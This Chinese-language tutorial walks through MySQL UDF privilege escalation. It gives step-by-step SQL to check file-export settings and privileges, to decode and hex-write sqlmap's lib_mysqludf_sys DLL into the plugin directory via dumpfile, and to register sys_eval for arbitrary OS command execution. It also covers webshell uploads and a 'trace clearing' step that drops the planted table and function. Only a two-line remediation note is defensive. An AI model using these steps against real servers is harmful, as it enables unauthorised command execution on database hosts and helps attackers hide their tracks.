







## 1.简介

UDF（User Defined Function）用户自定义函数，通过添加新函数，对MySQL功能进行扩展，调用方式和系统内置函数一样，比如user()，version()等

udf文件后缀在Windows和Linux系统下分别为DLL和SO，由C、C++编写

## 2.利用条件

1、常规情况

>1. mysql配置文件secure_file_priv项为空，如果为NULL或其他目录，无法自定义udf文件导出位置
>2. CREATE权限、FILE权限（root用户默认拥有全部权限）

2、特殊情况

INSERT、UPDATE、DELETE权限

## 3.版本特性

udf提权前需要先将udf文件上传到mysql检索目录中，windows系统下各版本检索目录如下：

### 1、MySQL<5.0

导出路径随意

### 2、5.0 <= MySQL < 5.1

Win2000导出路径： C:/Winnt/udf.dll

其他Windows系统导出路径均为：C:/Windows/udf.dll或C:/Windows/system32/udf.dll

### 3、 Mysql >= 5.1

Mysql安装目录的lib\plugin文件夹下，如果mysql安装时不选择完整安装或使用集成开发环境等情况下lib\plugin目录大概率是不存在的，需要自行创建。

## 4.UDF文件位置

1、sqlmap中：sqlmap\data\udf\mysql



2、metasploit中：/usr/share/metasploit-framework/data/exploits/mysql



## 5.操作步骤

### 1、查看可导出文件位置

```
show variables like '%secure%';
```



### 2、查看当前数据库用户权限

```
select * from mysql.user where user=substring_index(user(),'@',1)\G;
```

### 3、查看mysql安装目录

```
select @@basedir as basePath from dual;
show variables like '%basedir%';
```



### 4、查看主机架构版本



### 5、查看数据库版本，判断udf文件写入位置

```
select version();
```

#### 5.1 mysql >=5.1

1、存在`lib\plugin`目录且存在webshell时，直接上传udf文件

2、存在`lib\plugin`目录但没有webshell时，以16进制编码写入udf文件

sqlmap中udf文件为防止误杀默认经过异或编码，需要用sqlmap自带的脚本线解码

```
python sqlmap/extra/cloak/cloak.py -d -i data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
```

16进制编码udf文件

```
select hex(load_file('lib_mysqludf_sys_32.dll')) into dumpfile 'C:\\lib_mysqludf_sys_32.txt';
```

#####  **将16进制编码后udf文件使用dumpfile函数写入磁盘（outfile导出文件会在末尾写入新行且转义换行符，破坏二进制文件结构，dumpfile不会进行任何操作）**

```
select 0x4d5a900..... into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
```

随便选择一个数据库，创建一个表

```
use test;
create table udf(data longblob);
```

insert 插入udf文件数据，如果一次性插入长度有限制，则先insert一部分，再update拼接添加

```
insert into udf(data) values (0x4D...)
```

导出表中数据到系统磁盘

```
select data from udf into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
```

3、不存在`lib\plugin`目录，但有webshell，使用webshell创建lib\plugin目录

4、不存在 lib\plugin目录也没有webshell，方法待定

#### 5.2 mysql<5.1

1、有webshell时，通过webshell上传udf文件

2、无webshell时，使用dumpfile通过16进制数据流写入udf文件

### 6、创建命令执行函数

使用winhex打开udf文件，可以看到udf文件提供的函数



sys_eval，执行任意系统命令，并将输出返回。

sys_exec，执行任意系统命令，并将退出码返回（无命令执行结果回显）。

```
create function sys_eval returns string soname 'udf.dll';
```

### 7、命令执行

```
select sys_eval("whoami")；
```



## 6、痕迹清除

```
drop table udf; 删除表
drop function sys_eval; 删除函数
```

## 7、修复建议

1、mysql配置文件中secure_file_priv配置项设置为NULL或非mysql/lib/plugin目录

2、数据库用户确保最小权限原则

## 8、UDF Linux提权

利用条件：除windows udf提权中的内容外，还需要plugin目录的写入权限。

